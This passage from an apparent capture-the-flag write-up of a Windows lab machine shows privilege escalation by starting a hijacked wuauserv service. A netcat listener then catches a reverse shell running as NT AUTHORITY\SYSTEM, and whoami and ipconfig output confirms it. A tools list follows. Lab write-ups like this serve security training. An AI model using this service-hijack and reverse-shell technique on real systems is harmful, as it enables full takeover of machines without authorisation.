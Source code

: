 Now Lets start service:

```powershell
PS HKLM:\SYSTEM\CurrentControlSet\Services> Start-Service wuauserv
```

And get a shell in other terminal:



```powershell
❯ nc -nlvp 4242
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 10.10.10.167.
Ncat: Connection from 10.10.10.167:49705.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
PS C:\Windows\system32> ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . :
   IPv6 Address. . . . . . . . . . . : dead:beef::d8ba:9163:d35b:2cb1
   Link-local IPv6 Address . . . . . : fe80::d8ba:9163:d35b:2cb1%8
   IPv4 Address. . . . . . . . . . . : 10.10.10.167
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:3982%8
                                       10.10.10.2
PS C:\Windows\system32>
```







## Tools used in this post

- Burp Suite

- Hascat

- https://mybrowseraddon.com/modify-header-value.html

  

## Terminal Customization 
